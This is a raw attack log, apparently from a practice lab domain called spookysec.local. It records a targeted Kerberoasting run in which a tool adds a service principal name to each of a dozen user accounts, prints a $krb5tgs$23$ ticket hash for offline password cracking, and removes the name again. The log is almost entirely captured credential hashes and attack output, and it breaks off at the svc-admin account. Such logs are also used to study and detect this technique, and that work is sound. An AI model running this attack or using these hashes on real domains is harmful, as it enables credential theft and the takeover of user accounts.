$krb5tgs$23$*skidy$SPOOKYSEC.LOCAL$spookysec.local/skidy*$70b02341211350f35637a9eea5843f55$8c7335ceceafbadb2c8184e0844821b36ef7768b1f135c86ea2468c04f1b2ee373da2a92745f5f354ef7be9889a2e1e6844af5b41883525acf2538366f1bcfd33c4a5c7408ec8c99b708eb4aabb3ead16d664240ed5065d91905c5297b2d255006989de428b9c5b4b943591c2faf24efff31c23381a5ae438498ea7a92636e0d926f014d563b20dbdd9bca4c195ab725739ce9f12ec3afb2329dce7af2de3ee8c76702ce954dc4416881d528baad56919d796987f1e913bb2f2ebd5a4abd2373fa8466816cd77fb47604c37f80fcc54c3edadffb475dbb012aeeb30305e30297d9ff2eac3a15599670532df5dbd99729e253a81a32a6d186ce762a554a45989ef876c1432f4b0984ab744e99a50e46cd42a78cd29019651861e77a166d770c457cf74e8db0fc9c451805a0954e383f8cfc1fe366451c39677e0d1f646bec7516075a93c0ebfa6728cd1db4c551132739e9e6d86e9cc32f591ff5d37e479fbfa96e853c5b49eca6182ca80cb76d3ae12ae4c32c4e1ddade46695a455f9c843f6ba2aaa5bcdd5c8511e0a3d442a18b27e8018236cfb225a3947b564a37af05889608ef8925fcf34a6f556554b4bd17de00cdfedc8595b452aad7d094a0886abb7a943a6eb33bf638c6eebd2e207a0a94bbd6122614ad29c6f1243bee4384f19083d8dd4c438082ee6d134f23cbdaa8d172bfbb1a6bf2b68514ae624be3a5e98c9c7fb97e8407c071af2d5cb791e311c85df71679d52b5d37b2a1c36eb6c12748f908f1a8da22c395b41003889337ae73c4cf85bfe54065f2015b888c7fd5328ab965e49fa405ab771c6093f4ed4adf989655d1e3b603f5f1849b45b97ede0bb1adccdff2444b8088b9cc35a6ba82ccc2aeac60d79ce0beb47e8661b9b12e04a9113873e32df3a2f4c9ef62bca25e69527d94b2409075236a8247300c48ac5fb4a7c75193523fb96c591e1747abc73cb7c27a22720c3bc6315397564a5a26f660d2a6b556e341bb68093a8f7f2e4029518e8a4b5c81e8f512704131ef1c58461de1d1273ead45bcf748af0fa0b26b306f0b5d64cdc9959b5633e9cdf3e96602c5f1f4dca2d24e0da634632193c3bc0c2eff0150fefec787a0cdb49b4a4e6a0d3db250d5c779baf4e83620a5ff8dbda7925fd492451cc0ed9487edcb6c307754e896c1813abdc09d978ce5334f309bfb6044248e37f5783254c7751580ade6b7e923fa0715c84212d92e2e7bc5e6bc685506ddab92e4fd022603987bcfcb1d54c8d62592468ff249691d292c5836d784ea10994b27d1d4bd352fd0586f9005e9cd509989b2d3f79d9f96ad7d8392b130926f3cd7ab064d25
[VERBOSE] SPN removed successfully for (skidy)
[VERBOSE] SPN added successfully for (breakerofthings)
[+] Printing hash for (breakerofthings)
$krb5tgs$23$*breakerofthings$SPOOKYSEC.LOCAL$spookysec.local/breakerofthings*$3bedddc9050bb3e66f3afc580188db98$076e09de7b00485ae9b256fdd0c1a18b9b637f5e2d8b9bcde54be2c2a4d63fa22c0c138ae3959b2590c9a9d5f6740399df69d58fe92ff590adc1628a236c92e7da5989c4cd030e2c35f1903a07afc093909a2b2d7e45b31f92062dd7a4640c78d1e0ae1fddb0a518c720c7be7d4f85c4cdae31a9fd9a943e8ab55f8cde275dfe2042d89f27ff52b15d77b2f317a2911d88064fbab7f6a10a4fd5bd1862ed34fa9a68b6bf89525efd32dd6e3133b50dae324a6eba60a1dfdf9a69e9edc8568261ea6473d508cdd3c10a5b80015b482694fe7551395c7d404f35aa1cf59a9216f565f2d03349f4f9d1ff321295d923ab42134a8f8add991569d5eaf8f5302e84a2946a50c0dfe91fd73c3c80e2c441be272f86398e73effcd49e3599564191c9780ede8af391782de605658a2fa1f4e8426770156b96c1e7999e98dc2300d39e613a7eb266563a5341ed9e47c5c84c22dcc5c5c49e9727b63e8033390547c64f0f5ecc6a39b062be76a03bfcd01095efddd8b8875a4e53fc3cc2c03a08e2b72f6333e9a93ac815fe887c3f288ecb0b8ef126c507a17cbd29b00cc45b897333c7a028e866929774c0c453456b8348ff91ce5f130e37e6588e44a6bf6459dcd2e656aa89c2966861cffcc5dfdd74cdf0693fde5f8a9ffc0fa6eb7170643b9bb3780c85d99acf4e9788a7cb0405c88b56e0a9d10992cd397d22b510c08e5cc553e610a5f856c38d7eb1be04e4fad575786e221165a8c98fda088491f4a3b41f4a0db1c694f1649fc7efc8c9d34839e2a1523b3f458b249edcbace748a1784223a1238d89337fe23d6f754012e58fffd0feafd9852db91264708d2f454fa7bc88b5e3c9f7b4ccdadc0b055ce61055d87c6e6f6b544a01f62a8f947db8e57e075f33369e98b88863f505fd23d5495c7572daa95630bb4c00cf5a701e3dfb34af8d9bc1ea693253c1ea0e82d502640b732fc130430386b81feb11d563d3e15224beada53d3548f0e3bd37509c688c454a3a8b5d124af8d77ef21bba49f04782702ce5af0c2770d9a94f6fcf8ea3b6161adb6a4188829bf57677b3101653b01233a731dc47bd61e86782b12eb4354a1b52ff973abbf873360ccaf1a83a2705795b2ae110834d9d4c625a62b5c87a6fee09b42cb592d1c3fc366352b11fd0410df13618e9fc9f897a47ce1028dde359bf0b8c20c5a8400eda827a89a7ed62904d005feb0eb066f300d7badc70efc62dc624fed42a6c936f0909844bef69de5fc1a9434551aca7b81cdd7ece40548418b6dbe9e4fee0464be04504c63cfa442b27696542b8ccc36e495675ae5074b1b17e3abbcaf3cff6da28774d7
[VERBOSE] SPN removed successfully for (breakerofthings)
[VERBOSE] SPN added successfully for (james)
[+] Printing hash for (james)
$krb5tgs$23$*james$SPOOKYSEC.LOCAL$spookysec.local/james*$1ea7fe58e3876ad2f72b7c57db74ceed$876a33e607b3fbd08b394dae1389719746ac2ac1bc2e8b6e630dffdac371e7b99140cb2f0a83b497f7996fba656418e8b1af2b10adda562986e48f0de39dc07ca64f1f2398157f3ca746e9e526ee2e8d91890dad231dce9877d81a2df450ada6185ea942f453e0f215b4738915e0e3b1eb75c98dd7d22efe9fb7ed83ef0932f77f9c9cf3831533538bdeddce0fae01e18b7127ffda88390f9e9dd67bd13a07df234cdefd97a1de6f24bb8b9a8d977fb9baf95ca37b507f6a007e485b8163d8f181f7cf3033ac0538b3e389f57ff8756445bf83471e3bb1cc63b9b8843d4373d9f9c7a8d54ae07a81a7db29aa257901e905aab4f7f06ec798ef0058546400426db953623468883d37d268f75d30b08a9b280137b94a23af7980cb8b26a5f52ae46d5316949cda5599457e9e9b6fb9bba2d0f6fb29d56427f12c9d0c35e88c9f7ebfcb5b6d6509638fb18fef1939472fac79ba285e97eba22acbc1f36bf8c02d5791026112a618fab841208315dbd1158e7712c9413d8b50fa9d115efa9da31f837d9da4246b2dd35712dddbb9a831a514de28e5ea21054b7e368b2861238edbdc6f170ec01ac8b3adb2fdf2faf370667ba9b8a8cfd455440210c198ccdcf3a79f9091dd484c6a1b6669b971c4087764f11de9c15c10ae3600a49fa61020d3a9b9fefcd8b11aa07870ba909a3ccada9209b38e42122e7c584b7a7227c0ef3cda75bd33eb6f1685c3213ff17f5cf5a3bd853602458ba1d0351157f4ce9bc38def48076b637318fad8ecd2ef7d203b85f623a0fd2db6ff0d11e096726330d241fe358fe9058d0b36870321290beb699caf42a4e17929d20945ba363c868199ad9852207f08cb114c322bbc413e21d726effb64bbf1b8f4de3df19584c0ec4917ffbdf93f459367366ace4059490c5a42e380218a7c5516936a31170cb1adcd43b3ad58141476452f2343cd4973847f24e10a02f30d1fd6b47f21793673d60fdd648142961a240e38f2a2b7a23827217013608ed0a631d9340c31250cd4573f8ce6c15486cda08bc0f5061df3f4b0c951f49c179d231b4afd69c784073bc742bc3caa6da817210457576f4c07663748d974869acd65be1de97cf7cadbbf1c702b96e848b91a0e5acdf3cdcbc1ce2ac4fd5c547d9e9eb4a9eb04b5f9aa13c75272b289fe9798c340efa842fcfbf82b64e9943f18e034cb5bec3fb783b918017fae3695f338efd2f8bb98058b4f97895e4b4ac7e90554660d18793a574cc73bf71dc014719099606da16c0ff68e9448b7e6fb3207bca0ea8d362519e51a06c0c22e3bd4a3bd150728285e66ce219d4dbc3350f629f717b2a872
[VERBOSE] SPN removed successfully for (james)
[VERBOSE] SPN added successfully for (optional)
[+] Printing hash for (optional)
$krb5tgs$23$*optional$SPOOKYSEC.LOCAL$spookysec.local/optional*$39b367c508d3d218eed089282245e59e$42bea3bf861c923a0e366c3a00edcdc60a516b3afabcd8808be10caef5baf0f3a8f521b0dfdfd7764426e8c3609aff1c81de3dd597e8f40cf66e7d93ac0476c96f8063ac69a7e94d3d13360880bd48b95ff7ac46c8422678eb7da80ead40e3dfbb805ff6b0f0eef66c63fb23739837529390a74c7896a028c8bacb83efbf1b17991a4c2077b963343ada3f8b8df2e1b2416659537b22ccae06d62b8abf8cc2d4b6ddb36f5476b814c5460bc7631b20651779321ae46e04513db7f9a7b8b4a00ae4f4b340eb80228913f71a4303beb3122c643cd309a0466123b9ce01a92d8cea92503f54c9a968aad0624a22a312bb07c040b9c62627d4db9617f4eca359220083a14c1f1f9b645e40d6fb8a52eeaea3047e1781f87176784671c8817528433cdb9e08844f9d6160dc7839bbae83383859ec3bd7aec61a182a3217184a3db260cd338b9d196c945c2a3fd17a687459a16d5d3496d1fe37f4af9a32aa0f6365257085be76ac7bb3723dcd0dbe10d484e311733811f14e2813429a2aed33139d16d9dd0abe0c86dab23cea79f6f988d7e912b3f461eba67349366e851947de50acd072645a15e5327d6db4330340dbf82b801c8241e81664a35fe2081c226ad33a85db0a832720ad11fa80346f2600d55760ece58c364680ff72904d0949b3a34cdc485ea823efc0410fb5e043505f5f0afefb674ce174ac2ef82383ff5e7633b01f1269617218382c3159dc8b6340892684c7d6534fee4e699c9db718659a536f65355383e77b0c8029813b8886d4c699464612cd0c59677e4a7de309e13d67b5f4186366a6a51e25ba5393a5d0bf543a6b48fb8985dee7852f3c9eef74d0644b294960b097fd20d0c2673bc8655ea68544b9662d98ca970b3fc88aba0adcf24e98924dc1167134be4e5ba6a5c91d0b6b96d2acac1f74d22a89f46d47f1387a0fdaae22b315ff36ff5a2ce188b6764774f7847d24f3102a4e56e79b08c437c78048ffdb01014b5c6c879809bbc6d46ef79f479e7bc204d84d71978f020daaaf7b98a62eb0ce2db159009b25c08ef1b4e26d778fd804a04a4f776438998815dadd3be167958f2a26ea68582dcf9d50a9c80cc9935f2359d42887190ace031c8c42330b17e5fe2b848dc00295fff62c5ade2bb9e9d8d24caf8f08fe4eca5d0c3038a2e3419b5df90f96600c8bbdccda81b170a4e1ccddb630611429481c02382b84294b2bbc78ba8b4296b4bf32c6dd3289610ea9c99ee77856bed266ceb8e98d0690250d8d6f6eb933e0d3621b087fb7a7adba5b620bc2dc63074064bd631778b48cc1fa0fb86abdad1d0a3683a0084c0a9eb2ed9fb6d9
[VERBOSE] SPN removed successfully for (optional)
[VERBOSE] SPN added successfully for (sherlocksec)
[+] Printing hash for (sherlocksec)
$krb5tgs$23$*sherlocksec$SPOOKYSEC.LOCAL$spookysec.local/sherlocksec*$3cc430a778d7a6cfb5434c9aeec466e6$99a7a35aa89106239b9e25224d45154f9f5c42bd59604e68b9c0aecf3fb0d42ab6340aa24dddd43c2a396561c4b54e6a336093e65d1021a04ca43a30032476653886fb7c26d86b34470cb3bf1a169e720a2b49d50fc5aa65ff740e53f56aaa5c264e0bee79513904e56f839c02e9e2a6c7e5540ddb5be175e26761cbd1cbad2f39bdf889136ca7412bb9d5329dd4c29295c2d6b7fe241aa0df2410a2a79a8dc53e718e58607473e16b8a6099ab87b526e7bd0b5dadfd9719b17f34f790246c0361ea4ebe6c29a4cce246abfcc8d92ece30192a2636984bada8665ee5c53a02577073f44749118300250a8541b1fa4c85706f6087ad459b2453d29360c5d89fd40f461ccb0b85a03d42752fe5cb34d413c1b1d82027dfa0dee3ab3b94a9801241a452dd1d729ea58d6819e7fba7eb851af2f6524459cad537ad8bb47f4cf9a1ced20004356193f58142b6b558289a5e208460150cc7edc764334f8c29d5929549d990f1cb612b00b1d6f96fc294d9bb845d2aeee70261fe43ae12d27d139492a0cf7094a1d10c751214272b234761d50ed265e6d0d0a7a824be2a41948007c9d9e551d50f138bcdaf4676e288b7ca4d686bcd02f629f9362125860a0b985b30daeccfaea9ae032a52868bce6d8e6a966693554110d48fb325877d5d8fc6704906dfaf79f5a4638ed5c0af0ac0e61f23bd31b3cc75f328031bfc85d76bf019f9f4d0de023f099ec7915af6495ff6857490b3567fc10ad70ef4b52f872f9014a2ea7e45f1a640d4c2672ce3d9439a8590685eb2ed02100fc1d2d01a341c90ef85b9a8edc1f884c2e2442ee4a62f9d770012a02f08c549921f43f0469963079f161d89d6dfb4bf7af290562e7751d131827b9565ec359e0bf60952f4db8368bd7df4f9cc08e52915d44f42957a9e398f00bbcea2501637b5e2381f79b526cf51d29421e8d11a9b547a3c212b890bfbf18f812dc1f9ff4dd53271a43026f300a57abc50e2dcd54ab83d0b130e99342c776f7b12e5ddb42c7e5feb11219712508f9a3547e0fe2728a4cb817a91f15dc323cea0fb2ba20b7afd8c06bf55394198785cdadfd100dd668a7202357d3c4108495ad482fd907a54e59a578fe6d1e3fa19b599f48c24bbf9966e39eecd72325da3345cfd94980455e0b788508ae9ec0de3e41ddf98a4134c081e692679d663a2b5793593d2f040fd05d2e250d86f84dabfb10fd2deb1712da6e0c6038dbb893ba8caaec49d411ca5c6d412a3790a43288348fcdc2b4ef579c63c64d627fd7d53f2ee05bdf266a404273ac4476a44c5896d678053e69b9f70fa7d401c64f1b1ff95ffde6dffa7ed0e90
[VERBOSE] SPN removed successfully for (sherlocksec)
[VERBOSE] SPN added successfully for (darkstar)
[+] Printing hash for (darkstar)
$krb5tgs$23$*darkstar$SPOOKYSEC.LOCAL$spookysec.local/darkstar*$2aef661d44aef8a952d1c319447242b2$fcbc16d0b86ff02a1a33a2bbfed524fd406bdeed67ce479ed72878daa42ec7f55d6bfdd52f62cb6af1cc5b44fc50fcc8dc7b394ece24c49844441fb717ec027f056947e238812f3537efbe247a6ff8a67a79df80e0574c97b6d3f6873afd7b607d28dfc371cd0a96540cb127862ebca603220203a3c38cf4d338de6e5eb6a013481e1685b81dee00bf620d7131c952578fafe1595fe9cfe27ee7e8d76cdf3324e0c3c5a9d8cec0b02f65effc61cdbb497957746086e55d1fd15987ddf9dabc657316ffbb79a45a81bce36206fc2f90e5a646e870347deb1cd3479fdeb3562f0c94d43c1fdb2ed53ea2a25fd14e006e2679f58078e3fe5dfc9b22b304cdea62e143461abdb6645802a0d0a828a23fe382d31455efcb90e1c298594e37f9fdaab03a68808804718bfa59d9832627be81190e48d06ba09af48cf98abf65418ef5e468d006fd12fa56d52932b9c05fa1cd98eb3403e561f7a99ce0056189fc1890ef315e49d98dc5add1ca74237a019f9265d6107d21a90c3213c2c216918dfc4a663efe657124c870e10e38146cc90549477c5af2d46a09c0f77e062251a68dd90e4569d18c74771cc4cb7097492af4451763937ff634656d2a91898681094cc8f0fa72357dd8dc967e9b5d4fb96cd85f4de93d3daab6b86a1cd41aebb81e98d6f3aa7d821984bd7b7e3306c81506ee6106b550582182fa82914c52ce184ce6226aed035f55cd811aca09c193182acc075b881747fec49d282e3818aa27e8ec2e686b821eb7347b87d3d1f5f8a3831a71be0006daf22bc6156f07cbc80a2d2c5ee0f0b83c8b40195fb58ccf00a0d53dbbbf38d3cc3cca36ad8831cb22637c8f5848806f094b061fe3dce57e251e7ab48f912af0a617a9f20ff83eaff1c0732825ae71200bdfd8bbaf5072b73dee0e5609909df8aefb933db9981c15963aa4261fccbac471b1bb25ef636cbfaeb9c76297f690a7206a34515b9f49f61d5d253819d819020cffe3807d2c6588a60ab31128a2eec9b5b2b5c7966a5bbac47c60440934c61e8459327521d6bfdb6c1d4840545c9f91225353f2a99f94917518903c3d7887c96f02a4956b871a2865378dcda04ce6fa249741a8191c101c6db7b7b9c67077eac0f6a0720bf59ece3584a538b5d5dcd8384704b3e7e2adc36f1563d97f9001ec3876be0b9af88b518c5166ca1a44bed40d8f8d9ea1da7a02559eae028b98b66ef035436db0419591bdce05c8a59cb5012c2debc830d29493d7791eade05c0745c27526277d732c4b885194a7cd428e57c97ca127d680c099911c386d4c088a3cc1bc82c355fc6985bce156a2302f01ffe7e8e083
[VERBOSE] SPN removed successfully for (darkstar)
[VERBOSE] SPN added successfully for (Ori)
[+] Printing hash for (Ori)
$krb5tgs$23$*Ori$SPOOKYSEC.LOCAL$spookysec.local/Ori*$1cbf015817fce0bdea9182ea792583af$3dc5209ea271da5365cb316b889d7711c50cb51d8d78c9c61e5ef2d276e6993ad964d2bceaf35edb8f9f9be4e3c47f201a710f382b456ea6211ee3660cb7958a82312b280bf2fd850c2724ef46669bd794b448042987242dcaf371cd779dd6efbe241837c383f7d24259c114a17a23c8f699851adfd2f14d6af89876cb139fdf67edcd61caa01c4a9bbc8b7ad3fb9f930f912e7dffb54a10ea6885bb86c43b8ca570d96ce39e06c06cb2ef1a9128a650165fbae5974b1d246e5f38648bc7a407907e1031d0577cbb6ee323471cac514523adf661da753ded934eaa781a93edefc40225b27b2ea5b00feb9ae023cfa6344b1e4970fdfa3709b24b5104c18fb2cb09b961e56733ad310d1a314070fb7780ccdb959c53323c0c6507bcaec32125efd9d77fe6a537cb25b4940a79ff9d9a5900b56d989574961d01edaee0783e52ae34fc0863649e56d03fe928cf333c58b49c0def34761c3170b4526976ec52d6ce544c0e85456e4164652057b383d443fd8407b01ab5287182953674303e8fe11c892ac1dbc30ef7198216ddc8f5d0db65932d511035f56e114d51f73be24fa0feff1739d744d772c96f5aa2fbfb2e9cf5551f2d21852f783f6e839db1ec71cbd37fba9d8af1ac3a8ec7945fd7a194e3d6c613b61d2d221510bebfe61a4bf4c7b13aaee8e89f18f26cb316a0a6047ee3cf1d7d3eee91b617320485a7b287b856fa5043ecc49318a08402754ad5d4a142fbc75b31121129615f8dc89972724862699a16344844108cbab6a3b0b2c95b86dcb46d62eb9c189344fb03ef2266ba379e4844aa46ee7e8114ccd990de834a2fcdd4a011ad85596dede895ade11c05937fa4a8f4b044a8b8289745ff47a9ab807550dd0dd7ef83b2c1093d382bcdc968dff5750855702c65c0c7388d8ebd6d3ed53165d8d1e03d977c7da467ffae568e93d76dd7d80cd4c486726fa0edb3c1378d345028165e90f972cee352597eae29580e9e05a441b52a79eb2f0b12cc5797d0e92d991c22bc8923329f592b4d8317b76def6099c140b133260483aab44b4b7a063d2816320eb40234c2b273da152c4c04d1ce077128234f33416e0e36e02b4906d7917cfa28ad25f49df2a817a62e80c0543550fe5dc27575985afdabcd9edc3581ba542f89d3d26b8ea83eade128915a6efb8129da6753b13c83d912efddb2b0eae073792c46e61790be074f91a35c7df0e1744842f406cff94750a8c095043976c0c5383ade6a7e7176186344551baad99e18ce5ef8f733447a3c0efa97e230fc2e92a048ff8acca818f3ae709852c17495f7d24cd1cce188a12d506a2c28079dbbe9f7b3
[VERBOSE] SPN removed successfully for (Ori)
[VERBOSE] SPN added successfully for (robin)
[+] Printing hash for (robin)
$krb5tgs$23$*robin$SPOOKYSEC.LOCAL$spookysec.local/robin*$f4c815e0ba3e4ebebcf6b4e504ed8122$d4d080f7206788837bbff63e16bd98f75aa997082cedc89952e52dd7d1efbb7a87298e550bf3c5ae13bd7328dd7d8850311940fbdeb2bb3d2a3173273d444bf3a401553ec5e23a78307ac1642b738787f8038598402769982b1985e83037587529ae5fae0cfd9db6ba84928c90832c30d296c6f1140f7b95ceec58cca960b59034a2347179b96272f3b589addf8ed1e1ddb5acb7651a6b16ad7db6f582269638391ed036a08fde5f92cd8c4c0ec70c1b64fd5e08ee6933b09ed9b9c9bb928f2b425a8cba4f8e8bbb14bd6ffc0b6d9abe6a4cf65bb7c18f30379ced3a4214b9ca8361db5e36b25812fa72d23442952c7e028fd7a5c8bc30216fd51ccc04d1bd2a27af1f95defc833cbb8a61a899e81f19ae3d8412efebae9e4ff5b921c0c0131df4d4b8d2e0da1d3fa761ff6cb594c0468b020d0c0bccb3bb29f0b6afa0f0cdc86c0fe916ebf6821d042725bd709ae67c6d29f3cc3d2245d4bc8d5ae3522c050bc68b816c1fe4e236d134e493b42d2ead996a5354f8134d18acdad557a18ef449dedb51b2e096ad247b449f959f8b60af44e579d2192a5d451390bb78c2b2ae2b06e53615aede4f9af3fe2dbeb650b382279bbd9e07b65a83d19c059ec1b882c2bf3e897e216107d9d3b2482dd8944c9386c004f23c6475daa302590a862ec5216d7771f267a7a908a9983b804fb1407472614827a31fe9871081cd9ea6ffda96b0b9657cb232010070d5fa3a6600121c4672f958a6579ac60538765bfb1b5b656199766931cfffc73716511fa8000a256831fffaa5f40aca038b12db3edee2b17a9f13e7389f9063c96b9df0ecfada0157f72bf327955f383ee3aaec83ad656903e0e29ff37a8b3d8b849f1d9a77861e632dc2841fc7ad4f704f750ac179840d41308bc651fe26cee5e2bbfea935229eb8c0c86348b7a81064168ca91573f8aa907c2d74a13137bf0edcfacfa6fca2f466b1bae3d971d46f29f6df984fd86da8ac6bcee984a6606326fe67a6b40416f67e64d406624b967c8946f887da640a426e30adb2c283662b6fe8c24e0d927e679a4e4925a8ffb89e9c30db4421e395cbaf9a43eece5b2b666f7fd87a6750e0c3b5a8ecc7424ebb7394dd6aea15229f43b13191e4f57245a982bd64f099f45430a77655f7ceb2908b93f808d0d73166e6924e8f88b68cf255cad98ee734cdb146c430339e15ccbf1f901100fdbad1cce5278b3effe7f98dad55b173a81678814f6e9f740e301335fa19b01ddc0c44954d5d5d8f9671650a9059485709080a6933b35e38fde63cb248fcb9d294fdcf8644630108f36febb97357d634d205d0539ec6907ff32a03
[VERBOSE] SPN removed successfully for (robin)
[VERBOSE] SPN added successfully for (paradox)
[+] Printing hash for (paradox)
$krb5tgs$23$*paradox$SPOOKYSEC.LOCAL$spookysec.local/paradox*$4840e6791055dc47fa1caf617bf22d55$018ce0ac3cba9c1f42105ac44a6f7f9341446fc5de7486fae271b2ab40d3a67e1a6574294b89a1a17738067987ee00a6f0e9466033abe40b6adf557afb951e0835566c8924b509171af5147be108ad3471821edc08e0673bd66f2dd59bb4dcd3d40562e01db605cc401ef51be0c21b0417d176b84c67eb6d1bf6f8a906bff977ae67cef09ab37f5238410e5c6b00296c58e048b5aff59f1dee25122779e8b065af3415c8705450c89e66c2029c8d9e2ec85c65540219cb6cfc6e368cccbb3243b1562bb53b4e7a6eace15aa8d5a57791d1ab0a77f4f3546c5cb92d3f4cfe2fae162e8c1aad4496f10399078a751aad60f985f706f1a41e65cf948635a13b5e862c7a3f131488d841713c8b057d3e50c15c05092b3fdbec0b0e321d949d2455b388105f81e475e2725088bcafc4ffd800a9570589bb8557a230b6904461e1b9db6baf3f336366efc34f3f5ddabfd9f8054ab3b868d552df09cac035215e0f85424716dbf935c103b6079811a40c4197347081be46fbb9fd9d49ab77f9621b7a4faa47cec929aceccbfebc384dd61764ae1b73df6b049b24caf899a48e323008330ef9eb9cd83197c6346fa5680272d54a51a534b9cdccb1135b52e8c8d4b6c64531632b7f26ec23b5e2b1929156b31bbe3397025a9f6b044a273a54cf01cd02b1fc76c3be80dc6ea888bcaeaff5cb8556e70e9db6124e8a8766cb6d5c1428444a568b8c1f1078ac846c1cec8dfe1f79d3308658389b4dfc32d8e02ff6a378f6e52c9e1bc218d7bfde9299a40269474f6850a5d12af25ba1b5146541c0c3de717e2c53a8e8bf1c2a43565f0ea462b7894e5785d6c71b20b37b216af5dda93dafad28ecd9b62e610c7a8a4de46dde0909d4d859218673cfb2e7fc0169345b7add148719e6b939e4f07ccc9a2f37b3bf5e8458f53af3ae53c88a139a658b563ff139b901f0e7d57116b5f93b1ed7afa60fc9946990ca3e1d3a07cf134822a1fada9039368a7272b6281f738fd455556a101d5de537ae3f15992065c56f124385de5bbe7a165c75fafb899c70ad8571bc0465281fbf5f772225d71012b7ff299a2b511bee07f874a81af6b90c057d3fc473928f6c0b39d6318dea9955868e5254cba0851a34ba44fbd32bcb825f38390afd30ecc3d4453a8d9aa691b9faf896f4be8de3f97888cbc915b9dcc1429c015180afff2da3718777dc27bb17b85e6520429edc9fadf09462c1b2362d4b0f8e2823b4a8df77d23edbc08e7ed82eb8e5013c4701c71fabe5810fd66a3ab530d11b4a28caacf9ed37239eabab70d6fce5e64f9bb663dcb87005a383201088b6df912d8eda4e56880111
[VERBOSE] SPN removed successfully for (paradox)
[VERBOSE] SPN added successfully for (Muirland)
[+] Printing hash for (Muirland)
$krb5tgs$23$*Muirland$SPOOKYSEC.LOCAL$spookysec.local/Muirland*$a6e3da9f6022cee253ad9063e85e075b$265a61abbb3be2578059fcc43b6d10172a0d7c886b602d890537db7d256d3f736b0e14fc487a47920464d158803c8a0dc0d2450661ec94970dc051d50b041120aa686924e23aaec2f99a3d680e62b60950b352059a31e91adfd4daf3e31f0792ecec68b4eb0fb855e25e0c5dfdd60154383d7f156eb49e42a1ed30d56ad7b69f98d2e33337c87d5b0b8ea8aff219937dcbc647572b014587582c3e75177daf09ddccd7cc8868cf0b555f0153ffd87f0ff4dff2260c971ef5e871e33e4881aa516866fbd3cee2ddfa9f16f64a0c8fabd7c20935b49f82f03b3b842ab094a7c3b54433632da3c182fbd19861a9affdbc29134be8b032d5e64f169cf576ce72be6ffbe32d5d8cdf7a82984e668166a828f55cdc33770c84edc56dd6d57b2c34900d165ae45c636ab676a7f6b6f451e9eb6dbec1ba04255e42d8579c536f8d0081e396ac4fa0b089efa45da128275459e473cc141186c5e8098339c56438da41c769bcb9553d70d0cd3f5e4122db1a24faa0597be52761b336872b25ede292558038be8cc48039c7c420e06e0d6194684459fb9e54982d32340ae4f58123acaccf5484d793c8d680c7b0eb8b57dfe1d9b3e611f7190dca43129dc6700131918dfc131c4756e7590541a5d01793655131a942b36bb066aa0f49137267400e29fabf8e7af8112713abce2602c9ac5fd12be4fc14c122c783fe69772393d4763605de4c4970a8fcd8024ae04eab7c42a3328d60ae2687386339869025932d7bdd438993949675711420f6285924cfef1b46a5d18330ca416afb58e5845945087c25208bb7b4a471a22e3fa4b1b64a3c30f0af003feda7d708e5ee01d585e27556d37fc9928199d45efcfef039f740894b00415a579186f6dd8c71b38968a8a4b622a82a7fcb4c2af3a4f72dd95b556cb81e74424336a7e18805e09b81c78f0c04e4cc4edb44913f76e96ec3bac0a2cdd328e01cd358dff84916c7a1b399ab5c8e77a3095e76a8cf2465762d3b7f7249ba27f388eb732f4ccaadce3efc2bdd9ffaae957e9d9d32242e986b0b8dd3868bc3c547687f69810e56035f5a592bb4c4aa46767cee8e95e56fd8502491686c22fb49da67cdd1d53489d32b3c4e5d3f7f74f25b091d7676fafabd8489a6975c1a35a51734964d02e25ae9290d8c5b43210c0214af3ffd17c88da59cbe5441354629b52edc0eb5e45a2806265c5dc36d9c7213548d47300d2b311fc50baf9c6af6ce1b9893d08f780418392a5e54a9d8d9d301e6312b4306adf7f5c1774963c33ded67dd1203c4c356a5b0a9160c9211494475daf6f569ca761ed884dc2307999db996efb39883cb418bc2
[VERBOSE] SPN removed successfully for (Muirland)
[VERBOSE] SPN added successfully for (horshark)
[+] Printing hash for (horshark)
$krb5tgs$23$*horshark$SPOOKYSEC.LOCAL$spookysec.local/horshark*$67f1df718b35cd68b08ac6b4c3ec2064$801d5ec8757a74b2bdc1644261127587650a627aac97ecf10a2ffbf3f2cd25639c124721f83f7117f94f610ccb85e622bb09f2029dc26bf086f66aa6a787b9c1deee5fca9713f548df6602890c271e990f3991a1b5513bbc09f643c01b6770624cbfaf40f2a24f0ce191bef287affe953dd294447867a8f7b7d4ab34e62d5fcb454af016b1fda2151e370355f4883b858596b51a8b3b093cc9957c34ccc7f247e56383faffa74f4e91cf16b1c34e974f7935aebef28fcf11f2ba48a48cf4e56e11b3b537f3697f461b4294aa8936d17555412d94fd7076e1c144b76e0dd0c5d7e714d3f47955ed1ad107de8aa47d8afc16ec196ec5b6844b5fd2d24dc1c9cee1e979d2d2fc3da6d921a98a2ce33e54462500fd7d76a81d1759af0141f1144b4fbde28bc90f24feb710f5b426fec464f17e3de0664e1609a7cf02c1bac98f308f2706480152ce6a3018f2ad1f2aecf57329696d9d08eefd59de626295ca6551e0abcc3773063837a488f8bde7cc77ee3aa504b67df681042cc6e4f0d544ec78079625ac58fd2e899276177e7d774a530f6c0565fe05b244ed79e8150e5cc0b55836d4686ecaec0e6adb19bbca8c87c97bf9a46130cd955f82c5a00a8490b20d8eead840ffec7c96bbbbe90c985973bf05b7c861b589914eac94c43416e366a774ec2a9393b47e047fcc0c71950b1f1291f41bcf86991db5ec21e42c36c24e33448156976f80102901d851818123083c1e0f155a73f6ef0abb7678f9d1480406ffdef6b6a7672eaecf1936dfade8d558443e397a2cf5518209d96b614b9ac4ec15cd0a89ba4fca75274b2bc2ba70547facd0980587f362a7cbbb83114dff0ca7d537b9477bb90585ab1edf3a0fc4b1e92fb11458abdad2b0eb13f9ede3b5efdf9a3e7708aa3a14ab58fa68e6190855f14527f1c3197b31035ee817ea5df0bd8cc4493cd3c79107707981ccbf9ce98a39c0862aceefc50355ae24816c92b2e7657ae14bfd7e543b5097e7671560426aef1bb405b5fd0c1c881545e39abe060f128ea999bf66d6e80f86414f01e1ca577223c0436c58cd5c96d824a5f6e013f4185b42cb240a9004bbdb8577a2b6e4dc3d01c95acecc4177947f1d0ebbd879f30b072b80257719a2da3cf3d98e23cf74aeaabe95a0a216e92ac46b2fbb1537d74cc83f7e11156ffb76fc5509340915562037582156366f21c733067dd82760361951413bae12b6fd0cb948e0a3678637d826aac2dff3cf1642ab7acb2a344951c36c64a862c329884820274219ea550d06dd84d374f1254ab77cc4b0dd9226430fa763b66eba0deba2d301f6d8e560b234d7ba95b604494a
[VERBOSE] SPN removed successfully for (horshark)
[VERBOSE] SPN added successfully for (svc-admin)
[+] Printing hash for (svc-admin)
